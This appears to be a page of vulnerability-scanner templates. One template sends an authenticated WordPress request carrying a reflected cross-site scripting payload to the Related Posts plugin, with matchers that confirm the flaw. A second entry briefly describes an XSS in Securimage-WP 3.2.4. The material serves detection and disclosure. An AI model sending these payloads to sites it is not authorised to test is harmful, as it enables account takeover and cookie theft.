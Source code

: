 ### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In

```

### Step - 2

```
GET /wp-admin/admin.php?page=rp4wp_link_related&rp4wp_parent=156x%27%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \<img src=x onerror=alert(document.domain)>&action=edit
  2. All Posts\</a>
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Securimage-WP 3.2.4 - Cross-Site Scripting

## Description

- WordPress Securimage-WP 3.2.4 plugin contains a cross-site scripting vulnerability via siwp_test.php. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - edb,wordpress,xss,wp-plugin
